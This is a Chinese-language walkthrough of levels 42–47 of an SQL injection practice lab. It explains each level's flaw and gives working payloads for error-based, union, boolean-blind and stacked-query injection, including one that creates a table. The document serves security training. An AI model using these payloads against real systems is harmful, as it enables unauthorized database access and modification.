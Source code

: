 # 42-47
## 第四十二关
通过查看源码发现，在login.php中仅对用户名进行了过滤没有对密码进行过滤，且使用了`mysqli_multi_query`去查询数据库，因此在password字段可以使用堆叠注入。
无回显，只能进行增删改，常规字段注入也可
```
login_user=admin&login_password=admin'and%20extractvalue(1,concat(0x7e,database(),0x7e))#
```
经尝试发现，union注入无回显，报错注入能成功
`;`不能少，为sql语句的分割符
```
login_user=1&login_password=1'%3bcreate+table+test43+like+users%3b%23&mysubmit=Login
```
## 第四十三关
该关使用`('') `包裹变量，其余和上一关相同，支持堆叠注入
```
login_user=admin1&login_password=')%20order%20by%204;#
login_user=admin&login_password=admin')%20union%20select%201,database(),3#
login_user=admin&login_password=admin')and%20extractvalue(1,concat(0x7e,database(),0x7e))#
```
同样union注入无回显，报错注入有效
## 第四十四关
该关同样支持堆叠注入，单引号包裹变量。该关和四十二关基本相同，但是不会回显数据库报错信息，因此，报错注入可能不行
经过尝试，发现该关使用union注入和报错注入都不可行，布尔盲注可以
```
login_user=admin&login_password=admin'or%20length(database())=8#
```
## 第四十五关
该关和上一关相同，password字段存在sql注入，使用`('')`进行包裹，同样支持堆叠查询
同样union注入和报错注入都不行
```
login_user=admin&login_password=admin')or%20length(database())=8#
```
## 第四十六关
该关为数字型，GET类型注入，不过在ORDER BY字段，不能使用union注入，且没有mysqli_multi_query函数,因此不支持堆叠注入
该字段能注入的手段较少，该关会打印报错信息，因此可以使用报错注入进行尝试。
```
?sort=3%20and%20extractvalue(1,concat(0x7e,database(),0x7e))
```
能爆出数据库信息
## 第四十七关
该关字符型，GET类型，ORDER字段注入，闭合单引号，使用报错注入即可：
```
?sort=3%20'and%20extractvalue(1,concat(0x7e,database(),0x7e))--+
```